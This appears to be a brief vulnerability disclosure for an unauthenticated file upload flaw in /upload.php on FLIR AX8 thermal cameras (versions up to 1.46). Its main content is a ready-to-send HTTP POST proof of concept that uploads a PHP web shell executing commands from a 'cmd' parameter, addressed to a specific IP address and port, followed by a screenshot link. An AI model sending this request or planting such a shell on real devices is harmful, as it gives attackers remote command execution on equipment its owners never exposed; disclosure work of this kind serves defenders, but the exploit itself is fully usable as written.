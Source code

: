 ## Unauthority upload in FLIR AX8

### Description

In FLIR AX8 <=1.46 has an Unauthority file upload vulnerabililty in /upload.php

`upload.php`

```http
POST /upload.php HTTP/1.1
Host: 222.103.211.89:8004
User-Agent: Mozilla/5.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary12345
Content-Length: 200

------WebKitFormBoundary12345
Content-Disposition: form-data; name="file"; filename="malicious.php.tar"
Content-Type: application/x-tar

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary12345--
```



![image-20250526000719391](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505260007519.png)